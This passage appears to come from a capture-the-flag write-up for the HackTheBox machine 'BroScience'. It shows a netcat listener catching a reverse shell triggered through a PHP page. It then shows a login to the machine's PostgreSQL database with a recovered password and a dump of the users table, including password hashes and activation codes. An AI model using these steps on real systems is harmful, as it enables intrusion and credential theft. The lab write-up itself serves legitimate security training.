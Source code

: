 ![image](https://0xc0rvu5.github.io/docs/assets/images/20230125020304.png)

- Create a reverse shell

```bash
rlwarp nc -lvnp 4444
```
- Go to `https://broscience.htb/hello.php`
- First shell!

#### Shell as `www-data`
- I wasn't wasting anytime. You can check `netstat -at` to see the `postgres` database up and running and listening.

```bash
psql -h 127.0.0.1 -U 'dbuser' -p 5432 broscience
Password: RangeOfMotion%777
```

- List tables:

```postgres
\d
                List of relations
 Schema |       Name       |   Type   |  Owner   
--------+------------------+----------+----------
 public | comments         | table    | postgres
 public | comments_id_seq  | sequence | postgres
 public | exercises        | table    | postgres
 public | exercises_id_seq | sequence | postgres
 public | users            | table    | postgres
 public | users_id_seq     | sequence | postgres
(6 rows)
```

- Show content from `users` table:

```postgres
select * from users;
 id |   username    |             password             |            email             |         activation_code          | is_activated | is_admin |         date_created          
----+---------------+----------------------------------+------------------------------+----------------------------------+--------------+----------+-------------------------------
  1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf | t            | t        | 2019-03-07 02:02:22.226763-05
  2 | bill          | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb          | WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4 | t            | f        | 2019-05-07 03:34:44.127644-04
  3 | michael       | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb       | zgXkcmKip9J5MwJjt8SZt5datKVri9n3 | t            | f        | 2020-10-01 04:12:34.732872-04
  4 | john          | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb          | oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6 | t            | f        | 2021-09-21 11:45:53.118482-04
  5 | dmytro        | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb        | 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm | t            | f        | 2021-08-13 10:34:36.226763-04
  6 | spirit        | 87058565293b7c7cb027bee804671295 | spirit@gmail.com             | Od7D6uwayh3w7fC2NEJhmLJNxnfbix6L | f            | f        | 2023-01-25 03:10:16.644266-05
```
